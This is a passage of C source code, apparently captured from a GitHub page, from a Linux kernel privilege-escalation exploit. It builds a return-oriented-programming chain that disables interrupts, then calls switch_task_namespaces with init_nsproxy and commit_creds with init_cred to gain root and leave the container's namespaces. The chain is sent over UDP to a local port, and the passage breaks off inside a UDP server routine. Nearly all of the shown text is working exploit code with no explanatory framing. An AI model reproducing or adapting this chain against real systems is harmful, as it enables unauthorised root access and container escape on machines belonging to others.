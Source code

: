 ```c
    memset(buf, 0x41, sizeof(buf));

    int i = 0;
    buf[i++] = native_irq_disable;      // cli ; ret
    buf[i++] = __do_softirq_escape;     // last part of __do_softirq

    buf[i++] = 0xAAAAAAAAAAAAAAAA;      // dummy
    buf[i++] = 0xAAAAAAAAAAAAAAAA;      // dummy
    buf[i++] = 0xAAAAAAAAAAAAAAAA;      // dummy
    buf[i++] = 0xAAAAAAAAAAAAAAAA;      // dummy
    buf[i++] = 0xAAAAAAAAAAAAAAAA;      // dummy

    buf[i++] = 0xAAAAAAAAAAAAAAAA;      // dummy
    buf[i++] = 0xAAAAAAAAAAAAAAAA;      // dummy
    buf[i++] = 0xAAAAAAAAAAAAAAAA;      // dummy
    buf[i++] = 0xAAAAAAAAAAAAAAAA;      // dummy
    buf[i++] = 0xAAAAAAAAAAAAAAAA;      // dummy
    buf[i++] = 0xAAAAAAAAAAAAAAAA;      // dummy

    buf[i++] = bpf_get_current_task;    // rax, QWORD PTR gs:0x1fbc0 ; ret
    buf[i++] = cmp_dh_ret;              // cmp dh, dh ; ret
    buf[i++] = mov_rdi_rax_ret;         // mov rdi, rax ; jne 0xffffffff81625d61 ; xor eax, eax ; ret
    buf[i++] = pop_rsi_ret;             // pop rsi ; ret
    buf[i++] = init_ns_proxy;           // init_nsproxy's address
    buf[i++] = switch_task_namespaces;  // switch_task_namespaces's address

    buf[i++] = pop_rdi_ret;             // pop rdi ; ret
    buf[i++] = init_cred;               // init_cred's address
    buf[i++] = commit_creds;            // commit_creds's address

    buf[i++] = add_rsp_0x88_p_p_p_r;    // add rsp, 0x88 ; pop rbx ; pop r12 ; pop rbp ; ret

    payload_size = sizeof(buf);

    udp_client(&buf, htons(22222), ROP);
}

void udp_server_for_rop(void *data)
{
    int sockfd;
    char buffer[1024];
    struct sockaddr_in servaddr, cliaddr;
    socklen_t len;
    ssize_t n;

    if ((sockfd = socket(AF_INET, SOCK_DGRAM, 0)) < 0)
    {
        perror("socket creation failed");
        exit(EXIT_FAILURE);
    }

    memset(&servaddr, 0, sizeof(servaddr));
    memset(&cliaddr, 0, sizeof(cliaddr));

    servaddr.sin_family = AF_INET;
    servaddr.sin_port = htons(22222);
    servaddr.sin_addr.s_addr = inet_addr("127.0.0.1");

    if (bind(sockfd, (const struct sockaddr *)&servaddr, sizeof(servaddr)) < 0)
    {
        perror("bind failed");
        exit(EXIT_FAILURE);
```
